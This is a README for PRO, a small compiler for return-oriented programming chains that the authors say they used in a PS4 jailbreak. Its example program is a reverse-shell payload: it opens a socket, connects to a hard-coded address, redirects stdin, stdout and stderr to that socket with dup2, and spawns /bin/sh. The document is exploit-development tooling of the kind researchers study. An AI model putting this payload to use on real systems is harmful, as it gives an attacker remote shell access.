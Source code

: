 # PRO: PROgramming ROP like a PRO

This is a crappy tool used in our private PS4 jailbreak. Since some version, the internal browser is compiled WITHOUT jit support, and sys\_jitshm\_xxx seems to be disabled for unprivileged process. We have to write the kernel exploitation in ROP, like what has been done in HENKaku jailbreak.

## Build

```shell
pip install git+https://github.com/chaitin/pro
```

If you have modified the `pro.g4` file, use the following commands to
generate new lexer and parser.

```shell
cd pro/parse && antlr4 -no-listener -visitor -Dlanguage=Python2 pro.g4
```

## Examples

```javascript
toy {
	{% include "gadgets.pro" %}
	{% include "glibc.pro" %}
	const AF_INET(2);
	const SOCK_STREAM(1);
	const IPPROTO_IP(0);
	var fd;
	socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
	func store_rdx_rax<libc, 0x0002e60c, "rdx,rax::">;
	store_rdx_rax(&fd, undefined);
	printf("socket fd = %d\n", fd);
	array addr["\x02\x00\x41\x41\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"];
	connect(fd, addr, 0x10);
	{% for i in range(3): %}
		dup2(fd, {{i}});
	{% endfor %}
	system("/bin/sh");
	exit(1);
}

```

## Usage

A BIG TODO. Just try and learn by yourself.

## Quick Guide

All expressions should be evaluated during compilation, Const/Func should
be initialized in declaration.

Func is initialized with <Base, Offset, Signature>. Base/Offset is used for
relocation, Signature determines the calling convention of Func.

Array can be declared with size(Int) or directly initialized with its content(String).

For loop should be written in template script, it will be rendered
before compilation. For more information, check
[Jinja2](http://jinja.pocoo.org/).


